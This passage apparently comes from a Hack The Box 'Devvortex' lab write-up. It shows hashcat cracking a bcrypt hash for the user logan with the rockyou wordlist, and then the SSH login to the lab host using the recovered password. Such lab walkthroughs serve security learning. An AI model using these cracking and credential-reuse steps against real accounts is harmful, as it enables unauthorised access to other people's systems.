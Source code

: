 ```bash

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Thu Jan  2 08:56:25 2025 (22 secs)
Time.Estimated...: Thu Jan  2 08:56:47 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       64 H/s (7.70ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1392/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: moises -> tagged
Hardware.Mon.#1..: Util: 99%

Started: Thu Jan  2 08:55:58 2025
Stopped: Thu Jan  2 08:56:49 2025
```

The cracked password for `logan` is `tequieromucho`.
Let's open a shell as `logan` through `ssh`.

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ ssh logan@devvortex.htb
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 02 Jan 2025 02:41:34 PM UTC

  System load:  0.18              Processes:             163
  Usage of /:   63.4% of 4.76GB   Users logged in:       0
  Memory usage: 16%               IPv4 address for eth0: 10.10.11.242
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.
```